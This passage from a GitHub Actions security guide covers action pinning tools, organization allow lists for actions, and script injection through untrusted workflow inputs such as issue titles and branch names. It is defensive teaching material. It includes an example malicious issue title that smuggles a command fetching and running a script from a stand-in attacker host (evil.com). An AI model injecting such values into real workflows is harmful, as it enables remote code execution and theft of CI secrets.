 **Tools:**
- GitHub Dependabot: Auto-updates pinned actions
- Renovate: Similar automation

### Allow List

**Restrict which actions can be used:**

1. Organization Settings → Actions → General
2. Select "Allow select actions"
3. Specify patterns:
   ```
   actions/*,
   github/*,
   your-org/*
   ```

**Benefits:**
- Prevents use of unvetted actions
- Organizational control
- Reduce attack surface

---

## Script Injection

### The Vulnerability

**Untrusted input in workflows can execute arbitrary code:**

```yaml
# ❌ VULNERABLE
- name: Greet user
  run: echo "Hello ${{ github.event.issue.title }}"
```

**If issue title is:** `"; curl evil.com/steal.sh | bash; echo "`

**Executed command becomes:**
```bash
echo "Hello "; curl evil.com/steal.sh | bash; echo ""
```

### Attack Vectors

**1. Issue/PR titles and bodies:**
```yaml
# ❌ VULNERABLE
run: echo "${{ github.event.issue.body }}"
run: echo "${{ github.event.pull_request.title }}"
```

**2. Branch names:**
```yaml
# ❌ VULNERABLE
run: echo "Branch: ${{ github.head_ref }}"
```
